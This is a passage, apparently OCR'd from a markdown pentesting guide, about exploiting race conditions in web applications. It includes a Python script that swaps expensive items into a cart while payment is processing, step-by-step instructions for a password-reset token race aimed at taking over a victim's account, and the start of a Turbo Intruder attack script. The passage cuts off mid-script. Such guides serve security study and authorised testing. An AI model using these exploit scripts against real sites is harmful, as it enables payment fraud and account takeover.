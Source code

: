        # Start payment processing
       payment_thread.start()
       
       # Small delay to ensure payment processing has started but not completed
       time.sleep(0.1)
       
       # Update cart with expensive items during payment processing
       cart_response = update_cart(session, "https://vulnerable-website.com/cart/update", expensive_items)
       
       # Wait for payment thread to complete
       payment_thread.join()
       
       # Check order status
       order_status = session.get("https://vulnerable-website.com/order/status")
       print(f"Order status: {order_status.status_code}")
       print(f"Order details: {order_status.text[:200]}")
       ```

  - **Single-endpoint race conditions**
    1. **Password reset token manipulation**:
       - Step 1: Identify the password reset functionality
       - Step 2: Analyze how reset tokens are generated and stored
       - Step 3: Prepare two password reset requests for different accounts
       - Step 4: Send the requests simultaneously to create a collision
       - Step 5: Check if the system generates the same token or mixes the target accounts
       - Step 6: Attempt to use the token to reset the victim's password
       - Example Turbo Intruder script for password reset race condition:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=2,
               requestsPerConnection=1,
               pipeline=False
           )
           
           # Request for your account
           your_reset_req = '''POST /reset-password HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       
       email=your-email@example.com'''
           